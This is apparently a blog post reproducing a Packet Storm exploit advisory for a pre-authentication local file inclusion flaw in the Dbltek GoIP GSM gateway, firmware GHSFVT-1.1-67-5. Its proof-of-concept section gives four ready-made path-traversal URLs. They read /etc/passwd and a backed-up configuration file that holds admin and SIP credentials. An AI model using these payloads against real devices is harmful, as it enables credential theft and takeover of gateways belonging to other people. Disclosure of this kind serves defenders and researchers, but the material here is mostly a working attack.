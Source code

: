 ```yaml
---
layout: post
title: Dbltek GoIP GHSFVT-1.1-67-5
date: 2022-02-21 03:32 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/dbitek.png)

The Dbltek GoIP, which is running firmware version GHSFVT-1.1-67-5, has a vulnerability related to local file inclusion.

  

```
MD5 | 1da824e80cedd24b390e4caee1202eb9
```

```perl
# Exploit Title: Dbltek GoIP - Local File Inclusion
    # Date: 20.02.2022
    # Exploit Author: Valtteri Lehtinen & Lassi Korhonen
    # Vendor Homepage: http://en.dbltek.com/index.html
    # Software Link: -
    # Version: GHSFVT-1.1-67-5 (firmware version)
    # Tested on: Target is an IoT device
    
    # Exploit summary
    Dbltek GoIP-1 is a VoIP-GSM gateway device, which allows making calls and sending SMS messages using SIP.
    The device has a webserver that contains two pre-auth Local File Inclusion vulnerabilities.
    
    Using these, it is possible to download the device configuration file containing all device credentials (including admin panel credentials and SIP credentials) if the configuration file has been backed up.
    
    It is probable that also other models and versions of Dbltek GoIP devices are affected.
    
    Writeup: https://shufflingbytes.com/posts/hacking-goip-gsm-gateway/
    
    # Proof of Concept
    Assuming the device is available on IP 192.168.9.1.
    
    Download /etc/passwd
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f ..%2f..%2fetc%2fpasswd
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f ..%2f..%2f..%2fetc%2fpasswd
    
    Download device configuration file from /tmp/config.dat (requires that the configuration file has been backed up)
    http://192.168.9.1/default/en_US/frame.html?content=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
    http://192.168.9.1/default/en_US/frame.A100.html?sidebar=3D..%2f..%2f..%2f..%2f..%2ftmp%2fconfig.dat
```
    
<br>
  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)
